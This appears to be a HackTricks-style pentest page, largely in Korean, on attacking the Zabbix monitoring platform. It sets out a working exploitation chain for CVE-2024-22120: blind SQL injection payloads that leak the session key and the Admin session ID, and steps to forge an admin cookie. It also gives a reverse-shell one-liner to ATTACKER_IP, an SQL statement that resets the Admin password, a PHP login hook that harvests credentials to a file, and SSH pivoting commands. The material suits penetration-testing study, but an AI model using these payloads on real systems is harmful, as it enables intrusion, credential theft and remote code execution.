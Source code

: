 # Zabbix 보안

{{#include ../../banners/hacktricks-training.md}}

## 개요

Zabbix는 웹 UI(일반적으로 Apache/Nginx 뒤에 위치)를 노출하는 모니터링 플랫폼이며, Zabbix 프로토콜로 통신하는 서버 구성요소(TCP/10051, server/trapper)와 에이전트(TCP/10050)를 가지고 있습니다. 점검 중에 다음을 마주칠 수 있습니다:

- Web UI: HTTP(S) 가상호스트 예: zabbix.example.tld
- Zabbix server port: 10051/tcp (JSON over a ZBXD header framing)
- Zabbix agent port: 10050/tcp

유용한 쿠키 형식: zbx_session은 최소한 sessionid, serverCheckResult, serverCheckTime 및 sign을 포함하는 컴팩트한 JSON 객체의 Base64입니다. sign 은 JSON 페이로드의 HMAC입니다.

## zbx_session 쿠키 내부 구조

최근 Zabbix 버전은 쿠키를 다음과 같이 계산합니다:

- data JSON: {"sessionid":"<32-hex>","serverCheckResult":true,"serverCheckTime":<unix_ts>}
- sign: HMAC-SHA256(key=session_key, data=JSON string of data sorted by keys and compact separators)
- Final cookie: Base64(JSON_with_sign)

글로벌 session_key와 유효한 admin sessionid를 복구할 수 있다면 오프라인에서 유효한 Admin 쿠키를 위조하여 UI에 인증할 수 있습니다.

## CVE-2024-22120 — Time-based blind SQLi in Zabbix Server audit log

Affected versions (as publicly documented):

- 6.0.0–6.0.27, 6.4.0–6.4.12, 7.0.0alpha1

Vulnerability summary:

- When a Script execution is recorded into the Zabbix Server audit log, the clientip field is not sanitized and is concatenated into SQL, enabling time-based blind SQLi via the server component.
- This is exploitable by sending a crafted "command" request to the Zabbix server port 10051 with a valid low-privileged sessionid, a hostid the user can access, and a permitted scriptid.

Preconditions and discovery tips:

- sessionid: From guest/login in the web UI, decode zbx_session (Base64) to get sessionid.
- hostid: Observe via web UI requests (e.g., Monitoring → Hosts) or intercept with a proxy; common default is 10084.
- scriptid: Only scripts permitted to the current role will execute; verify by inspecting the script menu/AJAX responses. Defaults like 1 or 2 are often allowed; 3 may be denied.

### Exploitation flow

1) Trigger audit insert with SQLi in clientip

- Connect to TCP/10051 and send a Zabbix framed message with request="command" including sid, hostid, scriptid, and clientip set to a SQL expression that will be concatenated by the server and evaluated.

Minimal message (JSON body) fields:
```json
{
"request": "command",
"sid": "<low-priv-sessionid>",
"scriptid": "1",
"clientip": "' + (SQL_PAYLOAD) + '",
"hostid": "10084"
}
```
전체 wire 포맷은: "ZBXD\x01" + 8-byte little-endian length + UTF-8 JSON입니다. pwntools나 자체 socket 코드를 사용해 프레이밍할 수 있습니다.

2) Time-bruteforce secrets via conditional sleep

conditional expressions을 사용해 응답 시간을 측정하여 hex-encoded secrets를 한 문자씩 leak합니다. 실무에서 작동한 예:

- Leak global session_key from config:
```sql
(select CASE WHEN (ascii(substr((select session_key from config),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
- Leak Admin session_id (userid=1)을 sessions에서:
```sql
(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
참고:

- charset: 32 hex chars [0-9a-f]
- Pick T_TRUE >> T_FALSE (e.g., 10 vs 1) and measure wall-clock per attempt
- Ensure your scriptid is actually authorized for the user; otherwise no audit row is produced and timing won’t work

3) 관리자 쿠키 위조

Once you have:

- session_key: 32-hex from config.session_key
- admin_sessionid: 32-hex from sessions.sessionid for userid=1

Compute:

- sign = HMAC_SHA256(key=session_key, data=json.dumps({sessionid, serverCheckResult:true, serverCheckTime:now}, sort by key, compact))
- zbx_session = Base64(JSON_with_sign)

Set the cookie zbx_session to this value and GET /zabbix.php?action=dashboard.view to validate Admin access.

### 준비된 도구

- Public PoC automates: bruteforce of session_key and admin sessionid, and cookie forging; requires pwntools and requests.
- Parameters to provide typically include: --ip (FQDN of UI), --port 10051, --sid (low-priv), --hostid, and optionally a known --admin-sid to skip brute.

## RCE via Script execution (post-Admin)

With Admin access in the UI, you can execute predefined Scripts against monitored hosts. If agents/hosts execute script commands locally, this yields code execution on those systems (often as the zabbix user on Linux hosts):

- Quick check: run id to confirm user context
- Reverse shell example:
```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```
TTY upgrade (Linux):
```bash
script /dev/null -c bash
# background with Ctrl+Z, then on attacker terminal:
stty raw -echo; fg
reset
```
DB에 접근할 수 있다면, 쿠키를 위조하는 대신 Admin 비밀번호를 문서화된 zabbix용 bcrypt 값으로 재설정하는 방법도 있다:
```sql
UPDATE users SET passwd='$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username='Admin';
```
## 로그인 훅을 통한 자격 증명 캡처 (post-exploitation)

웹 UI 서버에 파일 쓰기가 가능하다면, 자격 증명을 캡처하기 위해 /usr/share/zabbix/index.php의 폼 기반 로그인 분기 주변에 로깅 스니펫을 일시적으로 추가할 수 있습니다:
```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
$user = $_POST['name'] ?? '??';
$password = $_POST['password'] ?? '??';
$f = fopen('/dev/shm/creds.txt','a+'); fputs($f, "$user:$password\n"); fclose($f);
CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);
}
```
Users authenticate normally; read /dev/shm/creds.txt afterwards. Remove the hook when done.

## 내부 서비스로의 Pivoting

서비스 계정의 shell이 /usr/sbin/nologin이어도, SSH authorized_keys entry를 추가하고 -N -L을 사용하면 loopback-only 서비스(예: CI/CD at 8111)로의 local port-forwarding이 가능하다:
```bash
ssh -i key user@host -N -L 8111:127.0.0.1:8111
```
더 많은 tunneling 패턴은 다음에서 확인하세요: [Tunneling and Port Forwarding](../../generic-hacking/tunneling-and-port-forwarding.md).

## 운영 팁

- 현재 역할에 대해 scriptid가 허용되는지 확인하세요 (guest는 제한된 세트를 가질 수 있음)
- Timing brute는 느릴 수 있습니다; 복구한 admin sessionid를 캐시에 저장하고 재사용하세요
- 10051로 전송되는 JSON은 ZBXD\x01 헤더와 a little-endian 길이로 프레이밍되어야 합니다

## 참고자료

- [HTB Watcher — Zabbix CVE-2024-22120 to Admin/RCE and TeamCity root pivot](https://0xdf.gitlab.io/2025/10/09/htb-watcher.html)
- [CVE-2024-22120-RCE toolkit (PoC scripts)](https://github.com/W01fh4cker/CVE-2024-22120-RCE)

{{#include ../../banners/hacktricks-training.md}}
